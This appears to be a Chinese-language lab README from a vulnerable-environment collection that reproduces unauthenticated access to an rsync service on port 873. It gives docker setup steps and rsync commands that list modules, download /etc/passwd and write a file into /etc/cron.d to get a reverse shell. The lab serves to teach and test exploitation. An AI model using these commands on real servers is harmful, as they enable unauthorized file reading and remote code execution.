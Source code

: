 # Rsync 未授权访问漏洞

Rsync 是 Linux 下一款数据备份工具，支持通过 rsync 协议、ssh 协议进行远程文件传输。其中 rsync 协议默认监听 873 端口，如果目标开启了 rsync 服务，并且没有配置 ACL 或访问密码，我们将可以读写目标服务器文件。

## 漏洞环境

编译及运行 rsync 服务器：

```
docker compose build
docker compose up -d
```

环境启动后，我们用 rsync 命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：

![](1.png)

## 漏洞复现

如上图，有一个 src 模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

![](2.png)

这是一个 Linux 根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个 cron 任务，成功反弹 shell：

![](3.png)
